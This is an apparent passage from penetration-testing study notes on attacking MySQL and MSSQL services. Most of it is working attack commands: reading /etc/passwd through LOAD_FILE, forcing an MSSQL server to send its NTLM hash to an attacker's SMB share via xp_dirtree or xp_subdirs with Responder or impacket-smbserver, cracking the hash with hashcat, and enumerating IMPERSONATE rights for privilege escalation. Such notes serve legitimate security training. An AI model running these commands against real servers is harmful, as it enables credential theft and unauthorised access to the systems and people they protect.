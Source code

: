 As we previously mentioned, by default a MySQL installation does not allow arbitrary file read, but if the correct settings are in place and with the appropriate privileges, we can read files using the following methods:
```console
mysql> select LOAD_FILE("/etc/passwd");
```

### Capture MSSQL Service Hash 

To make this work, we need first to start Responder or impacket-smbserver and execute one of the following SQL queries:

- **XP_DIRTREE** Hash Stealing

```console
1> EXEC master..xp_dirtree '\\<OUR IP>\share\'
2> GO
```

- **XP_SUBDIRS** Hash Stealing

```console
1> EXEC master..xp_subdirs '\\<OUR IP>\share\'
2> GO
```

With the Responder or Impacket:
```console
zero@pio$ sudo responder -I tun0 

...

zero@pio$  sudo impacket-smbserver share ./ -smb2support

...
```

After getting the password, crack it with **hashcat mode 5600**.

### Impersonate Existing Users with MSSQL 

SQL Server has a special permission, named `IMPERSONATE`, that allows the executing user to take on the permissions of another user or login until the context is reset or the session ends. First, we need to identify users that we can impersonate. Sysadmins can impersonate anyone by default, But for non-administrator users, privileges must be explicitly assigned. We can use the following query to identify users we can impersonate:
```console
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```

To get an idea of privilege escalation possibilities, let's verify if our current user has the sysadmin role:
```console
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
